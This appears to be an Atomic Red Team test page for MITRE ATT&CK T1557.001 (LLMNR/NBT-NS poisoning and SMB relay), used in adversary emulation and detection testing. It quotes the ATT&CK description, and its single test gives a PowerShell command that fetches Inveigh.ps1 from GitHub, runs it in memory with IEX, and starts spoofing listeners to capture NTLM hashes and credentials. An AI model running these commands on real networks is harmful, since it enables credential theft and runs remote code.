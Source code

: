 ```yaml
---
tags: [T1557_001, atomic_test]
filename: "[[T1557.001|T1557.001 - Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay]]"
---
```


# T1557.001 - Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1557/001)
<blockquote>By responding to LLMNR/NBT-NS network traffic, adversaries may spoof an authoritative source for name resolution to force communication with an adversary controlled system. This activity may be used to collect or relay authentication materials. 

Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification. LLMNR is based upon the Domain Name System (DNS) format and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name. (Citation: Wikipedia LLMNR)(Citation: TechNet NetBIOS)

Adversaries can spoof an authoritative source for name resolution on a victim network by responding to LLMNR (UDP 5355)/NBT-NS (UDP 137) traffic as if they know the identity of the requested host, effectively poisoning the service so that the victims will communicate with the adversary controlled system. If the requested host belongs to a resource that requires identification/authentication, the username and NTLMv2 hash will then be sent to the adversary controlled system. The adversary can then collect the hash information sent over the wire through tools that monitor the ports for traffic or through [Network Sniffing](https://attack.mitre.org/techniques/T1040) and crack the hashes offline through [Brute Force](https://attack.mitre.org/techniques/T1110) to obtain the plaintext passwords.

In some cases where an adversary has access to a system that is in the authentication path between systems or when automated scans that use credentials attempt to authenticate to an adversary controlled system, the NTLMv1/v2 hashes can be intercepted and relayed to access and execute code against a target system. The relay step can happen in conjunction with poisoning but may also be independent of it.(Citation: byt3bl33d3r NTLM Relaying)(Citation: Secure Ideas SMB Relay) Additionally, adversaries may encapsulate the NTLMv1/v2 hashes into various protocols, such as LDAP, SMB, MSSQL and HTTP, to expand and use multiple services with the valid NTLM response. 

Several tools may be used to poison name services within local networks such as NBNSpoof, Metasploit, and [Responder](https://attack.mitre.org/software/S0174).(Citation: GitHub NBNSpoof)(Citation: Rapid7 LLMNR Spoofer)(Citation: GitHub Responder)</blockquote>

## Atomic Tests

- [Atomic Test #1 - LLMNR Poisoning with Inveigh (PowerShell)](#atomic-test-1---llmnr-poisoning-with-inveigh-powershell)


<br/>

## Atomic Test #1 - LLMNR Poisoning with Inveigh (PowerShell)
Inveigh conducts spoofing attacks and hash/credential captures through both packet sniffing and protocol specific listeners/sockets. This Atomic will run continuously until you cancel it or it times out.

**Supported Platforms:** Windows


**auto_generated_guid:** deecd55f-afe0-4a62-9fba-4d1ba2deb321






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/82be2377ade47a4e325217b4144878a59595e750/Inveigh.ps1" -UseBasicParsing)
Invoke-Inveigh -ConsoleOutput Y -NBNS Y -MDNS Y -HTTPS Y -PROXY Y
```






<br/>
